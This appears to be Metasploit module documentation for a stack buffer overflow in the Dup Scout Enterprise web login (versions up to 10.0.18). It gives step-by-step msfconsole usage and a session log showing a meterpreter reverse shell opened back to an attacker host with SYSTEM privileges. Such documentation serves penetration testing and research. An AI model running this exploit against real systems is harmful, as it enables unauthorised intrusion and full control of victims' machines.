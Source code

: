 ## Vulnerable Application

This module exploits a stack buffer overflow in Dup Scout Enterprise
versions <= 10.0.18. The buffer overflow exists via the web interface
during login. This gives NT AUTHORITY\SYSTEM access.

This module has been tested successfully on Dup Scout Enterprise
versions:

* 9.9.14 on Windows 7 SP1 (x64)
* 9.9.14 on Windows XP SP0 (x64)
* 10.0.18 on Windows 7 SP1 (x64)
* 10.0.18 on Windows XP SP0 (x86)
* 10.0.18 on Windows 10 (1909) (x64)

## Verification Steps

Download:

* [Dup Scout Enterprise v9.9.14](https://www.exploit-db.com/apps/d83948ebf4c325eb8d56db6d8649d490-dupscoutent_setup_v9.9.14.exe)
* [Dup Scout Enterprise v10.0.18](https://www.exploit-db.com/apps/84dcc5fe242ca235b67ad22215fce6a8-dupscoutent_setup_v10.0.18.exe)

Install the application from the link above and enable the web server by going to
Tools -> Advanced Options -> Server -> Enable Web Server on Port.

Metasploit:

1. Install the application and set the option above to enable the web server
1. Start msfconsole
1. Do: `use exploit/windows/http/dup_scout_enterprise_login_bof`
1. Do: `set rhosts <rhosts>`
1. Do: `run`
1. You should get a shell.

## Options

## Scenarios

### Dup Scout Enterprise version 10.0.18 (x86) on Windows 10 (1909) (x64)

```
msf > use exploit/windows/http/dup_scout_enterprise_login_bof 
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf exploit(windows/http/dup_scout_enterprise_login_bof) > set rhosts 172.16.191.199
rhosts => 172.16.191.199
msf exploit(windows/http/dup_scout_enterprise_login_bof) > set lhost 172.16.191.192 
lhost => 172.16.191.192
msf exploit(windows/http/dup_scout_enterprise_login_bof) > run

[*] Started reverse TCP handler on 172.16.191.192:4444 
[*] Executing automatic check (disable AutoCheck to override)
[+] The target appears to be vulnerable. Dup Scout Enterprise version 10.0.18.
[*] Selecting a target...
[*] Using target: Dup Scout Enterprise 10.0.18 (x86)
[*] Generating payload ...
[*] Sending payload (10000 bytes) ...
[*] Sending stage (175174 bytes) to 172.16.191.199
[*] Meterpreter session 1 opened (172.16.191.192:4444 -> 172.16.191.199:50196) at 2021-02-22 21:14:52 -0500

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : DESKTOP-6VPIDIM
OS              : Windows 10 (10.0 Build 18363).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 17
Meterpreter     : x86/windows
meterpreter >
```

